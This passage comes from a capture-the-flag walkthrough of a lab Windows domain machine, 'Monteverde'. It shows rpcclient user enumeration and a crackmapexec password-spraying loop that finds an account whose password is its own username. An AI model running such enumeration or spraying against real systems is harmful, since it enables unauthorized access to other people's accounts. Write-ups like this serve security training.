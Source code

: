 We can manually enumerate all users using rpcclient.

```bash
rpcclient $> queryuser 0x641
        User Name   :   mhope
        Full Name   :   Mike Hope
        Home Drive  :   \\monteverde\users$\mhope
        Dir Drive   :   H:
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Fri, 03 Jan 2020 14:29:59 CET
        Logoff Time              :      Thu, 01 Jan 1970 01:00:00 CET
        Kickoff Time             :      Thu, 14 Sep 30828 04:48:05 CEST
        Password last set Time   :      Fri, 03 Jan 2020 00:40:06 CET
        Password can change Time :      Sat, 04 Jan 2020 00:40:06 CET
        Password must change Time:      Thu, 14 Sep 30828 04:48:05 CEST
        unknown_2[0..31]...                                
        user_rid :      0x641                              
        group_rid:      0x201                              
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168                                
        bad_password_count:     0x00000001
        logon_count:    0x00000002
        padding1[0..7]...                                  
        logon_hrs[0..21]...
```

Querying the specific users, we can check the logon_count to see if these users were active. Only `AAD_987d7f2f57d2`, `mhope` and `SABatchJobs` have a logon_count of greater than 0.

### Password spraying

We can save the found usernames into a text file and use [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) to check if any of these users use their username as their password. 

```bash
root@darkness:~# for i in $(cat users.txt); do crackmapexec smb -u $i -p $i -d MEGABANK 10.10.10.172; done
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\mhope:mhope STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs
```

`SABatchJobs` seems to use it's own username as it's password. Let us enumerate the shares using the found credential.
